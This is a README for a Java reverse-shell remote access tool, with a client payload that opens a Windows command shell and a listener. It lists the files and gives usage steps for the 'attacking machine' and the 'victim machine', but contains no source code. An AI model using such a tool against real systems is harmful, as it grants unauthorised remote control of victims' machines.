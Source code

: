 ########################
~~~~~~~~~~~~~~~~~~~~~~~~~~
SimpleJAVARAT-Listener-Payload 
~~~~~~~~~~~~~~~~~~~~~~~~~~
A simple reverse shell that works. 

%%%%%%%%
Or I. Benet
IT Specialist
M.IS UoP - Cyber Security - Epsilon Pi Tau
B.S. Troy - Chemistry - Mathmatics
%%%%%%%%%
####################

~~~Included Files~~~
  RATCLIENT.java - Windows Payload that opens up a command-shell
  RATCLIENT.class - compiled

  RATSERVER.java - Simple CLI Listener
  RATSERVER.class - compiled

  ~~~~~~~~~~~~~~~~
  
USAGE:
  @@@@
  1. Start the RATSERVER ON ATTACKING MACHINE (command: java RATSERVER)
  @@@@
  2. Start the RATCLIENT on VICTIM MACHINE (command: java <hostip>)
  @@@@
.............................................................................................................................
